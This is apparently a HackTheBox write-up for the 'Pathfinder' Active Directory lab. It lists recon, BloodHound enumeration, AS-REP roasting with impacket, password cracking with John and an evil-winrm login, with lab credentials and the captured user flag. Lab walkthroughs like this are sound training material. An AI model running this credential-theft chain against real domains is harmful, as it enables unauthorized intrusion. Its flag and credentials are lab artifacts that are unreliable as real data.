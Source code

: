 # Pathfinder


## Recon 

- nmap 
```
# nmap -A -T4 10.10.10.30
```
![](./IMG/0.png)

- Open port 
    1. 52      - DNS
    2. 88      - Kerberos-sec
    3. 135     - msrpc
    4. 139     - netbios-ssn
    5. 389     - ldap
    6. 445     - microsoft-ds ?
    7. 464     - kpasswd5 ?
    8. 593     - ncacn_http
    9. 636     - tcpwrapped 
    10. 3268   - ldap
    11. 3269   - tcpwrapped

### Pre-Exploit

- [Tools - BloodHound.py](https://github.com/fox-it/BloodHound.py)

```
# bloodhound-python -d megacorp.local -u sandra -p Passwrod1234! -gc pathfinder.megacorp.local -c all -ns 10.10.10.30
```

![](./IMG/1.png)

```
# ls -l *.json
```
![](./IMG/2.png)

```
# apt-get install neo4j bloodhound
```
![](./IMG/3.png)

```
# neo4j console
```

![](./IMG/4.png)

![](./IMG/5.png)

```
defautl 
neo4j / neo4j 
my site 
neo4j / Password
```

```
bloodhound --no-sandbox
```

![](./IMG/6.png)

```
zip megacorp.zip *.json
```
![](./IMG/7.png)


#### Shortest Path to High target Value

![](./IMG/8.png)

#### Finding Principle with DCSyns Rights

![](./IMG/9.png)
![](./IMG/10.png)



## Foothold

- [ASREPRoasting](http://www.harmj0y.net/blog/activedirectory/roasting-as-reps/) 
- [Roasting AS-REPs](https://stealthbits.com/blog/cracking-active-directory-passwords-with-as-rep-roasting/)

### Exploitation


- In impacket tools, there is a program call "GetNPUsers.py"
- Use this to check Kerberos pre-authentication be disabled or not 


```
# python3 GetNPUsers.py magacorp.local/svc_bes -request -no-pass -dc-ip 10.10.10.30
```

![](./IMG/11.png)


#### Issue 

- impacket version : 0.9.22
- When you try to execute GetNPUser.py, it will return the following error 
```
ModuleNotFoundError: No module named 'impacket.examples.utils'
```
![](./IMG/12.png)

- the error cause from the import utils which include the function parse_credentials 
- parse_credentials is used to search kerberos account message 
- After searching this file (utils) in the impacket directory, we found it locate in ```impacket/impacket/examples/utils```
- it seems the location is right ....
- but it will always failed with above error
- so, when you encounter this error message, just try to edit the python file - GetNPUsers, and modify the impacket.examples.utils to utils
```
Modify 
# from impacket.examples.utils import parse_credentials 
to 
# from utils import parse_credentials
```
![](./IMG/13.png)

- The result of GetNPUsers

![](./IMG/14.png)

![](./IMG/15.png)

- Using John&Ripper to crack the credential 

```
# john hash --wordlist=/usr/share/wordlists/rockyou.txt
```
![](./IMG/16.png)


- evil-winrm is a Windows遠程管理(WinRM) Shell工具
```
# sudo gem install evil-winrm
```
![](./IMG/17.png)


### Reference 

- [evil-winrm Github](https://github.com/Hackplayers/evil-winrm)
- [evil-winrm Freebuf](https://www.freebuf.com/sectool/210479.html)



- Using it to login svc_bes

```
# evil-winrm -i 10.10.10.30 -u svc_bes -p Sheffield19

```

![](./IMG/18.png)


- Find Flag 

```
# c:\\Users\svc_bes\Desktop\user.txt
```
![](./IMG/19.png)

- get flag1 (user.txt)
 
```
b05fb166688a8603d970c6d033f637f1
```

![](./IMG/20.png)


## Privileged Escalation 

## Reference 

- [evil-winrm Github](https://github.com/Hackplayers/evil-winrm)
- [evil-winrm Freebuf](https://www.freebuf.com/sectool/210479.html)
- [BloodHound installing](https://stealingthe.network/quick-guide-to-installing-bloodhound-in-kali-rolling/)
- [Post Exploitation Basics - BloodHound insgall and usage](https://github.com/sebastiendamaye/TryHackMe/tree/master/Post-Exploitation_Basics)
- [bloodhound-python](https://github.com/fox-it/BloodHound.py)
- [write up 1](https://www.aldeid.com/wiki/HackTheBox-StartingPoint-PathFinder)
- [Active Directory渗透测试典型案例1](https://cloud.tencent.com/developer/article/1436952?from=article.detail.1439383)
- [Active Directory渗透测试典型案例2](https://cloud.tencent.com/developer/article/1439383)
- [ASREPRoasting](http://www.harmj0y.net/blog/activedirectory/roasting-as-reps/) 
- [Roasting AS-REPs](https://stealthbits.com/blog/cracking-active-directory-passwords-with-as-rep-roasting/)
- [Impacket Github](https://github.com/SecureAuthCorp/impacket)
- [SMBClient](https://iter01.com/89916.html)
- [LDAP](https://itman.pixnet.net/blog/post/26817279)

#### Kali fail to fetch issue 

- [Failed to fetch solution 1](https://linuxconfig.org/kali-linux-failed-to-fetch-inrelease-repository-fix)



###### tags: `HackTheBox` `Windows`